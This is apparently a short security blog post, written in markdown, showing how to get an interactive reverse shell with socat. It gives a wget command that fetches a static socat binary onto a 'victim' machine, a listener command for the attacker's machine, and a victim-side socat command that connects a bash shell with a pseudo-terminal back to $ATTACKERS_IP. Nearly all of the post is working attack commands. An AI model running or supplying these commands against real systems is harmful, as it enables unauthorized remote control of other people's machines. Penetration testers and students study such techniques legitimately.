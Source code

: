 ```yaml
---
layout: post
comments: true
title: "Get Full Interactive reverse Shell With Socat"
tags: ['rce','socat','reverse-shell']
---
```



## Introduction
Today we are going to see a nice method to get an interactive reverse shell with socat.

## Installing socat socat
Socat may not be installed in the victim's machine so we first we have to install it.<br>
In this [repo][repo] we have a lot of binaries ready to download and execute, socat is one of this:
```bash
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```


## Getting reverse shell

In $PORT we can choose a free port like 443

In our attacker's machine:
```bash
socat file:'/dev/tty',raw,echo=0 tcp-listen:$PORT
```


In our victim's machine
```bash
./socat exec:'bash -li',pty, stderr, setsid, sigint, sane tcp:$ATTACKERS_IP:$PORT
```


[repo]: https://github.com/andrew-d/static-binaries